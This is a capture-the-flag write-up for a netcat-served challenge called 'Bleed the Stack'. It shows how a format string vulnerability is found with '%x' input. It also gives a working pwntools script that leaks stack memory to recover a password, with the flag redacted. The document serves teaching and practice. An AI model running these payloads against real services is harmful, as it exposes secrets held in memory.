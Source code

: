 ```yaml
---
title: "Bleed the Stack"
description: "An amateur programmer decides that for his hello world program, he will echo whatever you say. Can you find his mistake?"
author: "0x0539"
date: "2023-05-16"
published: true
tags: ["capture the flag", "0x0539", "binex"]
---
```


# bleed the stack

([challenge page available @ 0x0539.net](https://0x0539.net/play/fangorn/bleedthestack))

```
pls@RUBY ~ > nc challenges.0x0539.net 7070
ADVANCED CHALLENGE :: BLEED THE STACK
*****************************

Test me! Enter your name and I'll print it back to you!
```

This challenge is based around a command-line program served over `netcat`. Given the challenge's name, our flag is probably hidden in this program's call stack, so I start off by sending `%x`, or a hexadecimal format string specifier.
This returned hex values, which means the program is likely vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack):

```
Test me! Enter your name and I'll print it back to you!
%x %x %x %x %x %x %x %x
40 f7f77620 1 0 1 20656854 73736170 64726f77
```

To confirm this, we can convert the hexadecimal values to ASCII, yielding the (malformed) string `@÷÷v [f7f77620] ehTssapdrow` (noting that `[f7f77620]` is invalid as ASCII; the information here is intended to be read by a CPU and so is not necessarily human-readable text).

The string `ehTssapdrow` stands out as some form of actual text - it's 'little-endian' ordering of the ascii string `The password`.

We can automate an exploit with the `pwntools` python module:
- open a connection to the `netcat` server,
- send loads of '%x' format specifiers when prompted for input,
- and finally parse and decode the response.

Noting that some bytearrays dont appear to have a valid ascii representation (such as the aformentioned `f7f77620`), we can handle any errors by just ignoring these as unnecessary.

```python
from pwn import *

context.log_level = 'CRITICAL'
host,port = 'challenges.0x0539.net', 7070
format_str = '%x ' * 299

def decode_bytes(dword):
    # change endianness to BE & decode
    try:
        decoded = bytes.fromhex(dword).decode('ascii')[::-1]
        return ''.join([ch for ch in decoded if 32 <= ord(ch) <= 126])
    # return unchanged array if it can't be decoded
    except UnicodeDecodeError:
        print(f'UnicodeDecodeError on bytearray \\'{dword}\\'.\\n')
        return(f' {dword} ')

def main():
    s = remote(host,port)
    s.recvuntil(b'you!\\n')
    s.sendline(format_str)
    raw_bytes = s.recvall().decode().strip()

    # print the values leaked from the call stack to stdout
    print(f'\\nbytearray:\\n{raw_bytes}\\n')
    dwords = raw_bytes.split(' ')

    # ensure each array is 4 bytes long
    dwords = [dword.zfill(8) for dword in dwords]
    decoded_dwords = ''.join([decode_bytes(dword) for dword in dwords])

    # print the decoded values
    print(f'leaked:\\n{decoded_dwords}')

main()
```

The initial leaked output from this program's call stack gives us the following raw hex:

```bytearray
40 f7f20620 1 0 1 20656854 73736170 64726f77 3a736920 6c5f4920 5f337630 6d723066 625f7434 733675 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

Which our script will parse, decoding ASCII strings from their hexadecimal values:

```bash
@ f7f20620 The password is: [flag redacted] %x %x %x %x %x %x %x %x %x %
```


